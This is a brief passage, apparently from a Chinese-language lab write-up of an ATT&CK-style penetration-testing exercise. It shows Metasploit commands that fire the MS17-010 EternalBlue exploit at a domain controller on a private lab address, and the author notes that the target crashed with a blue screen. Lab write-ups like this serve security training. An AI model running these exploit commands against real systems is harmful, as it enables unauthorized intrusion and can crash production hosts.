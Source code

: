 4. 利用ms17-010进行攻击，域控主机的确存在ms17-010漏洞，但是利用后直接蓝屏了，很是尴尬
   
   ```powershell
   use exploit/windows/smb/ms17_010_eternalblue
   set rhost 192.168.52.138
   exploit
   ```
   
   ![30.png](img/ATT&CK/ATT&CK1/png30.png)

